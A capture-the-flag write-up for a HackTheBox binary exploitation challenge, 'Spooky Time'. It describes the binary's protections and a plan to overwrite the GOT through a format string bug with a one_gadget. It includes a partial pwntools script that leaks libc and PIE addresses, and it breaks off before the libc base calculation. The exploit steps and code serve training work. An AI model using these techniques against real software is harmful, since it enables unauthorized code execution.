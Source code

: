 # Spooky Time
> Write-up author: jon-brandy
## DESCRIPTION:
Everyone loves a good jumpscare, especially kids or the person who does it.. Try to scare them all!
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, not stripped, and dynamically linked.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2f1cbd77-dfeb-48ee-8e73-15e8100c186f)

#### NOTES: There's a libc too..

> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dd076476-71f6-4a4b-935b-d38ee880e664)


2. Remembering there's `No Relro`, hence the concept here might be somehow related to **overwrite Global Offset Table (GOT) with format string vuln**.
3. Also there is PIE which we need to bypass to overwrite the function and there's canary which we need to leak in order to control the return address.
4. Anyway after i decompiled the binary, it seems we don't have to leak the canary, we just need to leak the PIE and calculate the PIE Base.
5. The challenge is very straight forward, we can leak the libc and pie with the second format strings vuln (it accepts up to 299 bytes).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b0376aa6-f831-4333-803b-ff1c39d07fd9)


6. At glance, the function we need to overwrite seems the `puts()`.
7. Let's see if there are any `one_gadget` we can use.

> LIST OF ONE_GADGET AVAIL

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/76cf0edf-ac39-4e80-a9c9-b53385f6bf29)


8. Great we got few, it seems the 3rd and 4th shall be our interest.
9. Let's start leaking the libc and pie.

> UTILIZE THE 2ND FORMAT STRINGS VULN

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c8ffcd9c-1c79-4843-afd8-3e3d55a4f520)


10. Based from the result, let's use this 2 potential address.

> 1st box --> potential libc, 2nd box --> potential piebase.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e06de079-13ec-46d9-bc33-0e0debd29b74)


11. Let's calculate them.


> SCRIPT 

```py
from pwn import *
import os 

os.system('clear')

def start(argv=[],  *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2],  *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# for remote solve
gdbscript = '''
init-pwndbg
piebase
breakrva 0x1492
continue
'''.format(**locals())

exe = './spooky_time'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

sh = start()
pause()

sh.sendline('%3$p.%51$p')
sh.recvuntil(b'than')
sh.recvline()
get = sh.recvlineS()
print('GRABBED:',get)

potential_libc_leak = get[:14]
#print(potential_libc_leak)
libc_leak = int(potential_libc_leak, 16)
log.info('LIBC_LEAK --> %#0x', libc_leak)
pie_base_leak = get[15:]
pie_leak = int(pie_base_leak, 16)
log.info('PIE_LEAK --> %#0x', pie_leak)
#print(pie_base_leak)

sh.interactive()
```

> CALCULATING THE LIBC_BASE



